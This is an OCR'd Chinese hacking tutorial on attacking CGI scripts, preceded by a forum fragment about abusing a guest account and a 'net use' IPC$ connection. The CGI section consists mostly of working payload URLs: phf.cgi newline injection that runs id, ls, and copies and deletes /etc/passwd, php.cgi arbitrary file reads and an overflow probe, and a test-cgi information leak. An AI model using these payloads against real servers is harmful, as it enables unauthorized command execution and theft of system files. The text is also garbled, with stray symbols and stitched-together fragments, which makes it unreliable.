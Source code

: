 20c:\autoexec.bak? 成功实现文件的删除他的guest密码就是“Chinese”? 而且是超级用户。
然后你就可以:? net? use? <a href="file://ip/ipc$">\\ip\ipc$</a>? "Chinese"? /user:"guest"
其余的net命令在这我就不都说了！
多謝E-BADBOY
就是不懂提高權限到ADMIN.

??? 第一卷 第三章
?

?CGI漏洞向来是容易被人们忽视的问题，同时也是普遍存在的，前不久攻破PCWEEK? LINUX的黑客就

是利用了CGI的一个漏洞。我就自己所知道的和从外国站点看来的一些CGI漏洞来写一些利用CGI的攻

击方法，水平有限写得不对的地方请来信告诉我：<a href="mailto:bamboo@kali.com.cn">bamboo@kali.com.cn</a>?
一、phf.cgi攻击：?
phf是大家所熟悉的了，它本来是用来更新PHONEBOOK的，但是许多管理员对它不了解以至于造成了

漏洞。在浏览器中输入：?
<a href="http://thegnome.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd">http://thegnome.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd</a>?
可以显示出PASSWD文档来。其实还可以用更好的命令来实现目的：?
<a href="http://thegnome.com/cgi-bin/phf?%0aid&amp;Qalias=&amp;Qname=haqr&amp;Qemail=&amp;Qnickna">http://thegnome.com/cgi-bin/phf?%0aid&amp;Qalias=&amp;Qname=haqr&amp;Qemail=&amp;Qnickna</a>
me=&amp;Qoffice_phone=
<a href="http://thegnome.com/cgi-bin/phf?%0als%20-la%20%7Esomeuser&amp;Qalias=&amp;Qname">http://thegnome.com/cgi-bin/phf?%0als%20-la%20%7Esomeuser&amp;Qalias=&amp;Qname</a>=
haqr&amp;Qemail=&amp;Qnickname=&amp;Qoffice_phone=
<a href="http://thegnome.com/cgi-bin/phf?%0acp%20/etc/passwd%20%7Esomeuser/passwd">http://thegnome.com/cgi-bin/phf?%0acp%20/etc/passwd%20%7Esomeuser/passwd</a>
%0A&amp;Qalias=&amp;Qname=haqr&amp;Qemail=&amp;Qnickname=&amp;Qoffice_phone=
<a href="http://thegnome.com/~someuser/passwd">http://thegnome.com/~someuser/passwd</a>
<a href="http://thegnome.com/cgi-bin/phf?%0arm%20%7Esomeuser/passwd&amp;Qalias=&amp;Qname">http://thegnome.com/cgi-bin/phf?%0arm%20%7Esomeuser/passwd&amp;Qalias=&amp;Qname</a>
=haqr&amp;Qemail=&amp;Qnickname=&amp;Qoffice_phone=?
以上等于执行了命令：?
id?
ls? -la? ~someuser?
cp? /etc/passwd? ~someuser/passwd?
(用普通的可以进入的目录来看passwd)?
rm? ~someuser/passwd?
二、php.cgi
除了PHF以外，php也是常见的漏洞，php.cgi? 2.0beta10或更早版本中，允许anyone以
HTTP管理员身份读系统文件，在浏览器中输入：?
<a href="http://boogered.system.com/cgi-bin/php.cgi?/etc/passwd">http://boogered.system.com/cgi-bin/php.cgi?/etc/passwd</a>?
就可以看到想看的文件。?
另外，一部分php.cgi还可以执行shell，原因是它把8k? bytes字节放入128bytes的缓冲区中，造成

堆栈段溢出，使得攻击者可以以HTTP管理员的身份执行。
但是只有PHP作为CGI脚本时才能实现，而在作为Apache模量是不能运行的。想检查能否运行，只要

在浏览器中输入：?
<a href="http://hostname/cgi-bin/php.cgi">http://hostname/cgi-bin/php.cgi</a>?
如果你看到返回这样的字样就可以运行：?
PHP/FI? Version? 2.0b10
...?
三、test-cgi的问题
test-cgi同样是个常常出现的漏洞，在浏览器中输入：?
<a href="http://thegnome.com/cgi-bin/test-cgi?\whatever">http://thegnome.com/cgi-bin/test-cgi?\whatever</a>?
将会返回：?
CGI/1.0? test? script? report:?
argc? is? 0.? argv? is? .?
SERVER_SOFTWARE? =? NCSA/1.4B
SERVER_NAME? =? thegnome.com
GATEWAY_INTERFACE? =? CGI/1.1
SERVER_PROTOCOL? =? HTTP/1.0